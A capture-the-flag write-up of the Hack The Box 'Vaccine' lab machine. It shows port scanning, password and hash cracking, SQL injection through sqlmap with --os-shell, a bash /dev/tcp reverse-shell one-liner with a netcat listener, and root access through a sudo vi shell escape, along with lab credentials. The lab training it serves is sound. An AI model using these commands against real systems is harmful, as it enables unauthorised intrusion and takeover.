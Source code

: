 # Vaccine
The 3rd box of the Starting Point - explores the concepts of cracking passwords/hashes and SQL Injection.

![Vaccine](../Images/htb_vaccine_1.png)

**Tools: nmap, zip2john, john, hash-identifier, unzip, sqlmap.**

*This box doesn't have a user flag, only the root flag.*

We begin with the nmap scan:  
```
ports=$(nmap --min-rate=1000 -T4 -p- 10.10.10.46 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)  
nmap -sC -sV -T4 -p$ports 10.10.10.46 -oG vaccine_scan
```

![Vaccine](../Images/htb_vaccine_2.png)

Ports 21, 22 and 80 are open. Using the credentials gathered in the previous box 'Oopsie', we can access the ftp server:  
```
ftp 10.10.10.46  
ftpuser  
mc@F1l3ZilL4
```

![Vaccine](../Images/htb_vaccine_3.png)

There's a 'backup.zip' file that we can download, but we're unable to extract it because it is password-protected.   
We can use the tool zip2john to extract its hash and then john to crack it:  
```
zip2john backup.zip > file_hash  
john file_hash -w=/usr/share/wordlists/rockyou.txt
```

![Vaccine](../Images/htb_vaccine_4.png)

We are able to find the password for the zip file:  
741852963  
Next up, we can unzip it to see its contents:  
`unzip backup.zip`

Reading the 'index.php' reveals us a hardcoded password hash.

![Vaccine](../Images/htb_vaccine_5.png)

Using hash-identifier we can see that it is a MD5 hash, so we can use [Crackstation](https://crackstation.net/) to get the clear-text password.  
```
2cb42f8734ea607eefed3b70af13bbd3  
qwerty789
```

![Vaccine](../Images/htb_vaccine_6.png)

Accessing the webpage for this IP we can see a login form, and with the just-found password we can attempt to login using some common usernames, so we're able to access using 'admin'.

![Vaccine](../Images/htb_vaccine_7.png)

Some quick tests reveal that this page might be vulnerable to SQL Injection (SQLi).

![Vaccine](../Images/htb_vaccine_8.png)

We can use sqlmap to test this and then exploit it. First we need to copy our session cookie from the browser dev-tools (F12), storage tab:

![Vaccine](../Images/htb_vaccine_9.png)

`sqlmap -u "http://10.10.10.46/dashboard.php?search=" --cookie="PHPSESSID=<yourSessionID>"` 

The above command will reveal that the target is vulnerable to SQLi. So we can run the command below to gain a shell:  
`sqlmap -u "http://10.10.10.46/dashboard.php?search=" --cookie="PHPSESSID=<yourSessionID>" --os-shell`

![Vaccine](../Images/htb_vaccine_10.png)

Now in our box we can start a netcat listening session, then start a reverse shell in the target box:  
```
nc -vnlp 9003
bash -c 'bash -i >& /dev/tcp/<youtTun0IP>/9003 0>&1'
```

![Vaccine](../Images/htb_vaccine_11.png)

As mentioned before, there's no 'user' flag in this box, so the next step is to find a way to escalate our privileges to grab the 'root' flag.  
Now we need to perform some enumeration. At the '/var/www/html' we can find the 'dashboard.php' file, and once again we're able to find some hardcoded sensitive information for our user 'postgres':  
`P@s5w0rd!`

![Vaccine](../Images/htb_vaccine_12.png)

Now we need to spawn a fully interactive shell to check the user's permissions, prividing the password we've just found:  
```
SHELL=/bin/bash script -q /dev/null  
sudo -l
```

![Vaccine](../Images/htb_vaccine_13.png)

Sudo -l shows us that we can run '/bin/vi /etc/postgresql/11/main/pg_hba.conf' with sudo permissions:  
`sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`

Once inside Vi we can run the following command to exploit the elevated privileges:  
```
Press Esc then  
:!/bin/bash
```

And then you can read the root.txt file:  
`cat /root/root.txt`

![Vaccine](../Images/htb_vaccine_14.png)

**Thats it, another box pwned!**  
Thanks for reading and keep hacking!
